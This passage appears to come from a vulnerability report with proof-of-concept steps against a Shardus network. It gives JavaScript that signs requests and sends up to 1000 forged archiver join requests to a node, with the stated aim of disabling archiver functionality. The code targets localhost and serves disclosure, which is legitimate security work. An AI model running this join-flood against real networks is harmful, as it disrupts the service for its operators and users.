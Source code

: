```javascript
module.exports = {
  sign,
  initJoinReq,
}
```

5. create a file and name it `utils.js` and write below code to it

_utils.js_

```javascript
const fetch = require('node-fetch')
const { core } = require('./build/Crypto')
const { initJoinReq } = require('./sign')
const { Utils } = require('@shardus/types')

async function requestJoin(nodePort, myArchiverIp, myArchiverPort, keypair) {
  const realCurve = core.convertSkToCurve(keypair.secretKey)
  const curve = realCurve
  const body = initJoinReq(keypair.publicKey, keypair.secretKey, curve, myArchiverIp, myArchiverPort)

  const url = `http://localhost:${nodePort}/joinarchiver`

  const res = await fetch.default(url, {
    method: 'post',
    body: Utils.safeStringify(body),
    headers: { 'Content-Type': 'application/json' },
    timeout: 100 * 1000,
  })

  console.log(`added archiver ${myArchiverPort}: `, await res.json())
}

module.exports = {
  requestJoin,
}
```

6. then create a file and name it `join.js` and copy below code into it. This file sends at most 1000 join request to a node with port `nodePort` which is 9004 (you can change it if your nodes are running in different ports). It also tells the node for each join request, our archiver port is a number between `myArchiverPortStart` to `myArchiverPortEnd`. Archivers with different `publicKey` but same `ip:port` are allowed to join the network. which is a bug too, but that is not case of this report, Anyway, we want our new archivers to have different `ip:port` because later we need it to maliciously disable functionality of archivers.

_join.js_

```javascript
const Crypto = require('./build/Crypto.js')

const count = 1000
const keys = []
for (let i = 0; i < count; i++) {
  const keypair = Crypto.core.generateKeypair()
  keys.push({
    publicKey: keypair.publicKey,
    secretKey: keypair.secretKey,
  })
}
writeFileSync('keys.json', JSON.stringify(keys))

const waitMs = 100
const ip = '127.0.0.1'
var nodePort = 9004
```